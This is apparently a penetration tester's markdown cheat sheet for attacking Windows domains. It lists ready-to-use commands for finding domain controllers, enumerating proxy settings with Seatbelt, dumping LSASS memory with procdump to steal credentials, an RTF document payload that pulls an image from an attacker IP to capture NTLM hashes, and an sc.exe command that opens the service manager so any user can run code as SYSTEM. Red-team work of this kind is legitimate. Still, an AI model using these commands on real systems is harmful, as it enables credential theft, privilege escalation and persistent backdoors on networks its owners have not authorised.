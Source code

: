 - Host Discovery/Enum
	- Find Domain Controller
		- `nslookup -q=srv _ldap._tcp.dc._msdcs.contoso.local`
		- `nltest /dclist:contoso.local`
			- Requires domain user privs

- Seatbelt
	- Enumerate proxy settings
		- `seatbelt.exe InternetSettings`

- SysInternals
	- ProcDump64.exe
		- `procdump.exe -accepteula -ma lsass.exe lsass.dmp`

- Malicious Word document with UNC path for embedded image, for harvesting hashes
	- `{\\rtf1{\\field{\\*\\fldinst {INCLUDEPICTURE "file://<kail ip>/a.jpg" \\\\* MERGEFORMAT\\\\d}}{\\fldrslt}}}`

- Post-Ex persistent, fileless, local privesc backdoor 
	- `sc.exe sdset scmanager D:(A;;KA;;;WD)`
		- Set the Security Descriptor on the scmanager to allow everyone to start system services - essentially allowing anyone to run any EXE as local SYSTEM